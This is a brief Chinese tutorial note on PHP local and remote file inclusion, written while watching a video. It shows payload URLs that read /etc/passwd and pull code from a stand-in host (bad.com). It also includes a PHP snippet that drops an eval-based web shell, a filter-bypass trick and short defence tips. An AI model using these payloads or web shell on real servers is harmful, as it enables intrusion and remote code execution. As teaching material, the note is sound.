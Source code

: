 ```yaml
---
title: Security-3
description: 文件包含漏洞
---
```


## 前言

本文是观看[此视频](https://www.bilibili.com/video/BV1g4411Y7Y4/)时的笔记

## 原理

有些页面会引用其他页面，比如`xxx.com/?include=xxx.php`，因为 PHP 启用了`allow_url_include`并使用了`include()`/`require()`等函数

我们可以通过修改`include`参数，获得其他文件内容，比如`xxx.com/?include=/etc/passwd`，即【本地文件包含/Local File Inclusion】

也可以`include`其他的`PHP`代码，让服务器执行这些代码，比如`xxx.com/?include=http://bad.com/bad.txt`，即【远程文件包含/Remote File Inclusion】

如果`http://bad.com/bad.txt`的内容是：

```php
<?
fputs(
  fopen("shell.php","w"),
  "<?php eval($_POST[pass]);?>"
)
?>
```

就可以实现木马植入，然后获得 WebShell

## 绕过简单检测

### 字符串替换

如果服务器把`http://`给替换为空字符串，RFI 就失效了。不过我们可以把 URL 改成`httphttp://://`或者`hthttp://tp://`实现绕过

## 防御

- 不开启`allow_url_include`选项
- 不使用`include()`/`require()`等函数
- 在服务器检测所有文件路径
